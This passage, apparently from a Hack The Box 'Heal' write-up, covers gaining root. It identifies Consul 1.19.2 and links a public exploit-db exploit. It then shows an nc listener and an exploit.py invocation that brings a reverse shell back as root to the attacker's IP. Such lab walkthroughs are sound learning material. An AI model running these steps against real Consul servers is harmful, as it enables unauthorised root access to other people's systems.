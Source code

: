 Enter `Ctrl + u` view source and see version in  server ->CONSUL_VERSION: 1.19.2

![](/assets/img/sample/heal/version.png)

I found an exploit file [here](https://www.exploit-db.com/exploits/51117). Copy it and save it as `exploit.py` on the attack machine.

~~~ shell
- One command run a `nc` listener like this: 
┌──(trit㉿chimp)-[~/HackTheBox/Heal]
└─$ nc -lnvp 5555
~~~

- Another command run script like this:

~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Heal]
└─$ python3 exploit.py 127.0.0.1 8500 10.10.14.45 5555 0

[+] Request sent successfully, check your listener
~~~


Finally, we have the root flag.

~~~
┌──(trit㉿chimp)-[~/HackTheBox/Heal]
└─$ nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.46] 51686
bash: cannot set terminal process group (7038): Inappropriate ioctl for device
bash: no job control in this shell
root@heal:/# ls
ls
bin
boot
cdrom
dev
etc
home
lib
lib32
lib64
libx32
lost+found
media
mnt
~~~